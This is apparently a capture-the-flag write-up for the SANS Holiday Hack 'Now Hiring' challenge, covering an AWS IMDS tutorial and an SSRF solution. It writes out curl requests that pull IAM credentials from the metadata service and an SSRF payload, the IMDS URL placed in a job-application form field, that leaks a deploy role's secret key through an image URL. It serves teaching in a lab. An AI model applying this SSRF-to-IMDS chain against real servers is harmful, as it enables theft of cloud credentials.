

# 10 Now Hiring

_Difficulty:_  :evergreen_tree: :evergreen_tree: :evergreen_tree:

> What is the secret access key for the Jack Frost Tower job applications
> server? Brave the perils of Jack's bathroom to get hints from Noxious _O. D'or_.

[Jack Frost Tower App](https://apply.jackfrosttower.com/)

Noxious O. D'or

> Hey, this is the executive restroom. Wasn't that door closed? I’m Noxious
> O’Dor. And I’ve gotta say, I think that Jack Frost is just messed up. I mean,
> I'm no expert, but his effort to "win" against Santa by going bigger and
> bolder seems bad. You know, I’m having some trouble with this IMDS
> exploration. I’m hoping you can give me some help in solving it. If you do,
> I’ll be happy to trade you for some hints on SSRF! I’ve been studying up on
> that and have some good ideas on how to attack it!

---

## Challenge: IMDS exploration

```text
🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your
🎄🎄🎄 cloud asset skills, interacting with the IMDS using curl.
🎄🎄🎄 If you get stuck, run 'hint' for assitance.
```

> The Instance Metadata Service (IMDS) is a virtual server for cloud assets at
> the IP address 169.254.169.254. Send a couple ping packets to the server.

```sh
$ ping 169.254.169.254
PING 169.254.169.254 (169.254.169.254) 56(84) bytes of data.
64 bytes from 169.254.169.254: icmp_seq=1 ttl=64 time=0.022 ms
```

> IMDS provides information about currently running virtual machine instances.
> You can use it to manage and configure cloud nodes. IMDS is used by all major
> cloud providers.
> Different providers will have different formats for IMDS data. We're using an
> AWS-compatible IMDS server that returns 'latest' as the default response.
> Access the 'latest' endpoint. Run `curl http://169.254.169.254/latest`

```sh
$ curl http://169.254.169.254/latest
dynamic
meta-data
```

> IMDS returns two new endpoints: dynamic and meta-data. Lets start with the
> dynamic endpoint, which provides information about the instance itself. Repeat
> the request to access the dynamic endpoint: `curl http://169.254.169.254/latest/dynamic`.

```sh
$ curl http://169.254.169.254/latest/dynamic
fws/instance-monitoring
instance-identity/document
instance-identity/pkcs7
instance-identity/signature
```

> The instance identity document can be used by developers to understand the
> instance details. Repeat the request, this time requesting the
> instance-identity/document resource: `curl
> http://169.254.169.254/latest/dynamic/instance-identity/document`.

```json
{
        "accountId": "PCRVQVHN4S0L4V2TE",
        "imageId": "ami-0b69ea66ff7391e80",
        "availabilityZone": "np-north-1f",
        "ramdiskId": null,
        "kernelId": null,
        "devpayProductCodes": null,
        "marketplaceProductCodes": null,
        "version": "2017-09-30",
        "privateIp": "10.0.7.10",
        "billingProducts": null,
        "instanceId": "i-1234567890abcdef0",
        "pendingTime": "2021-12-01T07:02:24Z",
        "architecture": "x86_64",
        "instanceType": "m4.xlarge",
        "region": "np-north-1"
}
```

> Much of the data retrieved from IMDS will be returned in JavaScript Object
> Notation (JSON) format. Piping the output to 'jq' will make the content easier
> to read. Re-run the previous command, sending the output to JQ: `curl
> http://169.254.169.254/latest/dynamic/instance-identity/document | jq`
> Here we see several details about the instance when it was launched.
> Developers can use this information to optimize applications based on the
> instance launch parameters.
>
> In addition to dynamic parameters set at launch, IMDS offers metadata about
> the instance as well. Examine the metadata elements available: `curl
> http://169.254.169.254/latest/meta-data`
>
> By accessing the metadata elements, a developer can interrogate information
> about the system. Take a look at the public-hostname element: `curl
> http://169.254.169.254/latest/meta-data/public-hostname`

```sh
$ curl http://169.254.169.254/latest/meta-data/public-hostname
ec2-192-0-2-54.compute-1.amazonaws.compute-1
```

> There is a whole lot of information that can be retrieved from the IMDS
> server. Even AWS Identity and Access Management (IAM) credentials! Request the
> endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials` to
> see the instance IAM role.

```sh
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials
elfu-deploy-role
```

> Once you know the role name, you can request the AWS keys associated with the
> role. Request the endpoint
> `http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-
> role` to get the instance AWS keys

```json
{
        "Code": "Success",
        "LastUpdated": "2021-12-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-12-02T18:50:40Z"
}
```

> So far, we've been interacting with the IMDS server using IMDSv1, which does
> not require authentication. Optionally, AWS users can turn on IMDSv2 that
> requires authentication. This is more secure, but not on by default.
>
> For IMDSv2 access, you must request a token from the IMDS server using the
> X-aws-ec2-metadata-token-ttl-seconds header to indicate how long you want the
> token to be used for (between 1 and 21,600 secods). Examine the contents of
> the 'gettoken.sh' script in the current directory using 'cat'.

```sh
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" \
          -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
```

> With the IMDS token, you can make an IMDSv2 request by adding the
> X-aws-ec2-metadata-token header to the curl request. Access the metadata
> region information in an IMDSv2 request: 'curl -H "X-aws-ec2-metadata-token:
> $TOKEN" `http://169.254.169.254/latest/meta-data/placement/region`

---

_Noxious O. D'or_:

> Phew! That is something extra! Oh, and you solved the challenge too? Great!
> Cloud assets are interesting targets for attackers. Did you know they
> automatically get IMDS access? I'm very concerned about the combination of
> SSRF and IMDS access. Did you know it's possible to harvest cloud keys through
> SSRF and IMDS attacks? Dr. Petabyte told us, "anytime you see URL as an input,
> test for SSRF." With an SSRF attack, we can make the server request a URL.
> This can reveal valuable data! The AWS documentation for IMDS is interesting
> reading.

[AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

Value submitted for form field "URL to your public NLBI report":
<http://169.254.169.254>



Taking the URL of the not displayed image:

```shell
$ curl https://apply.jackfrosttower.com/images/ABC.jpg
latest
```

Bingo !

Next using `http://169.254.169.254/latest/meta-data/iam/security-credentials`
and curl'ing the image URL again:

```sh
$ curl https://apply.jackfrosttower.com/images/ABC.jpg
jf-deploy-role
```

Next, querying for the credentials of the 'jf-deploy-role'
with
`http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role`
and curl'ing the image URL again yields:

```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```
